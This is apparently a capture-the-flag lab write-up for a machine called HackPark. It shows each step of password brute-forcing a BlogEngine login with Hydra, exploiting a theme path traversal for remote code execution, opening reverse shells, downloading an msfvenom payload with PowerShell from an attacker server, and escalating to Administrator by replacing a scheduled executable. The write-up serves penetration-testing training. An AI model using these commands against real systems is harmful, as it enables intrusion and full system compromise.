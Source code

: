 # Scanning

Let's begin by scanning the target using RustScan.

```
rustscan -a 10.10.120.14 -r 1-65535 --ulimit 5000 -- -sVC
```

<img src="images/06.HackPark/01.png">

# Enumeration

We can see two open ports. Let's see what's running on port 80.

<img src="images/06.HackPark/02.png">

If we click on the menu icon, we can see the login page.

<img src="images/06.HackPark/03.png">

We can see that the login page belongs to blogengine.

<img src="images/06.HackPark/04.png">

Now, we will try to use the default credentials admin:admin to see if that works. But it failed. Now, let's bruteforce the password with the username admin as we know that the default username is admin.

First, we will fire up Burp Suite to see what type of request the login page is making to the web server. Let's enter admin:admin in the username and password fields and intercept this using Burp Suite.

<img src="images/06.HackPark/05.png">

We can see that the login page is making a POST request. We will now use Hydra to brute force the password field assuming the username is admin.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.120.14 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=Pw49CE7XN99O07VsfmUKlS3GQsevl39oxTcHs0fj672xrsEdiwp26MjPpiJLmnJc%2Badroz9oDltpxOKHPbB6cf7nhiuXQBiHwnZYUwx%2BFAGXtU1YQQcxOXrvAntLHand12BsvenypZEkD5DkrYrd6pOBUBnwCzdk6T3Aco66LLlCpW4A&__EVENTVALIDATION=B93mjHyaWPm5JljuEQuMNVayeIlWC4kRbNsrSF9DjvDYBb6ZBhz%2Byag9pTRt8hhBdxWgdwlqd9DiLXamGJERhiMUxR814calYKBvOWaCNKv3zyDSzKVhONt5%2BvmcuOkDTIDPGB6Bpq0Dktu4om3tg%2BjlkZrV4I5NyuuANXrlQgJH71q8&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -v
```

<img src="images/06.HackPark/06.png">

It shows that we successfully found the password for the username admin. Now, let's login using the username admin and the password we found.

<img src="images/06.HackPark/07.png">

We can see a dashboard and when we click on about, we can see the version of the blogengine.

<img src="images/06.HackPark/08.png">

Now, we will use searchsploit to find any available exploits.

<img src="images/06.HackPark/09.png">

We can see an exploit for the version 3.3.6. Now, copy that exploit to the current path.

<img src="images/06.HackPark/10.png">

We can see the description of the exploit and how to use it.

<img src="images/06.HackPark/11.png">

# Exploitation

This is a path traversal vulnerability leading to remote code execution which is caused by an unchecked theme parameter that is used to override the default theme for rendering blog pages.

Change the ip address and port number in the exploit and save it as PostView.ascx.

<img src="images/06.HackPark/12.png">

Now, navigate to the path that was mentioned in the website.

```
 http://10.10.120.14/admin/app/editor/editpost.cshtml
```

Click on the file manager icon and then upload the PostView.ascx file.

<img src="images/06.HackPark/13.png">

Let's start the netcat listener on port 2222.

```
nc -lnvp 2222
```

<img src="images/06.HackPark/14.png">

Now we will navigate to the path as show below to trigger the vulnerability.

```
http://10.10.120.14/?theme=../../App_Data/files
```

<img src="images/06.HackPark/15.png">

We received a shell in the netcat listener!

<img src="images/06.HackPark/16.png">

We will elevate out netcat shell to meterpreter shell. We will start this by generating a payload using msfvenom.

<img src="images/06.HackPark/17.png">

Start metasploit and use exploit multi/handler.

```
use multi/handler

set lhost tun0

set lport 3333

exploit
```

<img src="images/06.HackPark/18.png">

Start the python http server using the following command. It serves on port 8000 by default.

```
python -m http.server
```

Now, download the payload to the target machine and run it.

```
powershell -c wget http://10.6.10.164:8000/shell.exe -outfile shell.exe
```

<img src="images/06.HackPark/19.png">

We now got a reverse shell via metasploit!

<img src="images/06.HackPark/20.png">

# Privilege Escalation

## Method 1: Using meterpreter's getsystem

Use the command getsystem to elevate the privileges from local user to root user.

<img src="images/06.HackPark/21.png">

## Method 2: Using Windows Scheduled Task

We already have the meterpreter reverse shell. Let's see what all processes are running.

<img src="images/06.HackPark/22.png">

We can see that there are a lot of process running. Out of them WScheduler.exe is an interesting process because we can try to elevate our privileges by using the scheduled service. If we navigate to the path of SystemScheduler, there are a lot of processes. And when we navigate to events, we can see the log file 20198415519.INI_LOG.txt.

<img src="images/06.HackPark/23.png">

<img src="images/06.HackPark/24.png">

When we see the contents inside the log file, there is a specific process Message.exe running as administrator. So, let's try to replace this Message.exe with our malicious exe file with the same name.

<img src="images/06.HackPark/25.png">

We will generate a payload using msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.10.164 LPORT=5555 -f exe -o Message.exe
```

Now we will background the current meterpreter session.

```
bg
```

Now set the port to 5555 and run the exploit in background.

```
set lport 5555

exploit -j
```

Now, get back to the first meterpreter session.

```
sessions -l

sessions -i 1
```

Navigate to the path C:\Program Files (x86)\SystemScheduler. Now, move the Message.exe file to some other location.

```
mv Message.exe C:\Windows
```

Now upload the malicious file that we just created using msfvenom.

```
upload Message.exe
```

Keep the current meterpreter session to backround and check the sessions.

```
bg

sessions -l
```

We can find a new session opened as the user Administrator.

<img src="images/06.HackPark/26.png">

We now got a reverse shell as root!
